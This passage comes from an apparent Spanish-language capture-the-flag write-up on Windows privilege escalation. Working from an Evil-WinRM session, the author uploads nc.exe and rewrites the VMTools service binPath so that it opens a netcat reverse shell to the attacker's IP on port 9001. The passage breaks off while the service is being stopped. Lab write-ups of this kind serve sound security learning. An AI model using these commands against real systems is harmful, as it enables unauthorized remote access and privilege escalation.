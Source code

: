 Para ver que servicios podemos modificar, tendremos que usar el comando `sc.exe sdshow <service> [showrights]` para ver el [SDDL](https://itconnect.uw.edu/tools-services-support/it-systems-infrastructure/msinf/other-help/understanding-sddl-syntax/) del servicio y saber que podemos hacer con él.
Tendremos que hacer esto ya que no tenemos permisos para ejecutar el comando `sc.exe query`.
```text
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query
[SC] OpenSCManager FAILED 5:

Access is denied.
```

En este caso yo ya he mirado y se que tenemos permisos para **editar** la configuración, **parar** y **arrancar** el servicio `VMTools`:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/3c333ecf-44e0-46e9-97ca-46aaece320a9)

Este servicio es válido para escalar privilegios.

### Getting a reverse shell

Primero tendremos que subir el binario `nc.exe` a la máquina, `evil-winrm` tiene una función integrada llamada `upload`, así que simplemente movemos el binario a la ruta donde iniciamos el comando `evil-winrm`y lo subimos o simplemente retrocedemos varios directorios y ponemos la ruta absoluta del binario `nc.exe` como hice en mi caso:
```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload ../../../../../../../opt/SecLists-master/Web-Shells/FuzzDB/nc.exe
                                        
Info: Uploading /home/z3r0byte/Descargas/../../../../../../../opt/SecLists-master/Web-Shells/FuzzDB/nc.exe to C:\Users\svc-printer\Documents\nc.exe
                                        
Data: 37544 bytes of 37544 bytes copied
                                        
Info: Upload successful!
```

Ahora tendremos que editar el **binpath** del servicio que miramos anteriormente para introducir nuestro payload de reverse shell:
```text
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VMTools binPath="C:\Windows\System32\cmd.exe /c C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.23 9001"
[SC] ChangeServiceConfig SUCCESS
```
Por último, nos pondremos en escucha en nuestra máquina, reiniciamos el servicio y debería de llegar una reverse shell a nuestro equipo:

- Pararíamos el servicio si estuviera activo (en este caso no)

```text
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop VMTools
[SC] ControlService FAILED 1062:

The service has not been started.
```
